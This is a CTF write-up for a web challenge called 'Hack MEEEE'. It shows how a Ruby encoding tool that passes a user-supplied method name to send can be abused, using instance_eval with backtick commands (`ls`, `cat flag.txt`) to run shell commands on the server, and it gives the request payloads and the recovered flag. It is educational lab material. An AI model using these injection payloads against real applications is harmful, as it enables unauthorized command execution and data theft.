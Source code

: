 # Hack MEEEE

> web

Author: [whitex](https://instagram.com/najeh_halawani)

This is my custom hacking tool, very useful during CTFs 🚩!

## Writeup

The page as a form has 4 inputs:
- message
- option (commented)
- method

Here is the source code:

```html
<form action="/" method="POST">
  <textarea autofocus name="message"></textarea>
  <!-- <input type="text" name="option"/> -->
  <br>
  <select name="method">
      <option value="decode_base64">Decode base64</option>
      <option value="encode_base64">Encode base64</option>
      <option value="encode_hexadecimal">Encode hexadecimal</option>
      <option value="decode_hexadecimal">Decode hexadecimal</option>
      <option value="md5">Md5</option>
      <option value="sha1">Sha1</option>
      <option value="sha2">Sha2</option>
  </select>
  <input type="submit">
  <hr/>
  <textarea></textarea>
</form>
```

Here is a normal request payload:

```
message=test&method=encode_base64
```

And it's response:

```html
<!-- ... -->
  <textarea>dGVzdA==
</textarea>
<!-- ... -->
```

It looks like it performs the action specify by the `method` param on the `message` param.  In this case encode `test` in base 64.

Now let's try to break it!

Request payload:

```
message=test&method=foobar
```

Response:

```html
<!-- ... -->
  <textarea></textarea>
   <!-- <div class="error">undefined method `foobar' for Tool:Class</div> -->
<!-- ... -->
```

We have an error message!

After some research on the internet you can figure out that the language used is [Ruby](https://www.ruby-lang.org).

It can be code injection if the param `method` is the method name called on the `Tool` class.

Let's try it with the [methods](https://ruby-doc.org/core-2.2.0/Object.html#method-i-methods) method. It should return an array with the methods symbol defined for this class.


```
message=test&method=methods
```

```html
<!-- ... -->
  <textarea>[:decode_base64, :encode_base64, :encode_hexadecimal, :decode_hexadecimal, :md5, :sha1, :sha2, :exposed_methods, :new, :allocate, :superclass, :json_creatable?, :<=>, :include, :<=, :>=, :==, :===, :included_modules, :include?, :name, :ancestors, :instance_methods, :public_instance_methods, :protected_instance_methods, :private_instance_methods, :constants, :const_get, :const_set, :const_defined?, :class_variables, :remove_class_variable, :class_variable_get, :class_variable_set, :class_variable_defined?, :public_constant, :private_constant, :deprecate_constant, :singleton_class?, :module_exec, :class_exec, :freeze, :inspect, :const_missing, :class_eval, :method_defined?, :public_method_defined?, :prepend, :<, :>, :private_method_defined?, :protected_method_defined?, :public_class_method, :module_eval, :to_s, :private_class_method, :autoload, :autoload?, :instance_method, :public_instance_method, :to_json, :instance_of?, :kind_of?, :is_a?, :tap, :public_send, :method, :public_method, :singleton_method, :remove_instance_variable, :define_singleton_method, :instance_variable_set, :extend, :to_enum, :enum_for, :=~, :!~, :eql?, :respond_to?, :object_id, :send, :display, :nil?, :hash, :class, :singleton_class, :clone, :dup, :itself, :taint, :tainted?, :untaint, :untrust, :untrusted?, :trust, :frozen?, :methods, :singleton_methods, :protected_methods, :private_methods, :public_methods, :instance_variable_get, :instance_variables, :instance_variable_defined?, :!, :!=, :__send__, :equal?, :instance_eval, :instance_exec, :__id__]</textarea>
<!-- ... -->
```

There we have it! There is a lot of methods defined for the class `Tool`.


Let's check the private methods using [private_methods](https://ruby-doc.org/core-2.2.0/Object.html#method-i-private_methods):

```
message=test&method=private_methods
```

```html
<!-- ... -->
  <textarea>[:initialize, :inherited, :using, :attr, :attr_reader, :attr_writer, :attr_accessor, :remove_const, :remove_method, :method_added, :method_removed, :protected, :method_undefined, :undef_method, :public, :private, :initialize_copy, :initialize_clone, :alias_method, :included, :extended, :prepended, :define_method, :DelegateClass, :humanize, :Digest, :sprintf, :format, :Integer, :Float, :String, :Array, :Hash, :fail, :iterator?, :__method__, :catch, :__dir__, :loop, :global_variables, :throw, :block_given?, :raise, :__callee__, :eval, :URI, :j, :Rational, :trace_var, :untrace_var, :at_exit, :Complex, :set_trace_func, :gem, :select, :caller, :caller_locations, :`, :test, :fork, :exit, :JSON, :sleep, :jj, :respond_to_missing?, :load, :gem_original_require, :exec, :exit!, :syscall, :open, :printf, :print, :putc, :puts, :gets, :readlines, :readline, :initialize_dup, :p, :spawn, :rand, :srand, :proc, :lambda, :abort, :system, :trap, :require, :require_relative, :binding, :local_variables, :warn, :method_missing, :singleton_method_added, :singleton_method_removed, :singleton_method_undefined]</textarea>
<!-- ... -->  
```

Nice, the method [\`](https://ruby-doc.org/core-2.2.0/Kernel.html#method-i-60) is defined.

> `cmd` → string
> Returns the standard output of running cmd in a subshell. The built-in syntax %x{...} uses this method. Sets $? to the process status.

We could use the method [instance_variables](https://ruby-doc.org/core-2.2.0/Object.html#method-i-instance_variables) to execute private method. This way we could use the [\`](https://ruby-doc.org/core-2.2.0/Kernel.html#method-i-60) method and execute code on the serveur.

> instance_eval(string [, filename [, lineno]] ) → obj
> Evaluates a string containing Ruby source code, or the given block, within the context of the receiver (obj). In order to set the context, the variable self is set to obj while the code is executing, giving the code access to obj's instance variables and private methods.

Let's try to list the current directory:

```
message=`ls`&method=instance_eval
```

```html
<!-- ... -->
  <textarea>Gemfile
Gemfile.lock
app.rb
flag.txt
tool.rb
</textarea>
<!-- ... -->
```

Let's read the `flag.txt` file:

```
message=`cat flag.txt`&method=instance_eval
```

```html
<!-- ... -->
  <textarea>d33p{send_is_a_very_dangerous_method}</textarea>
<!-- ... -->  
```  

Got the flag 🎉!
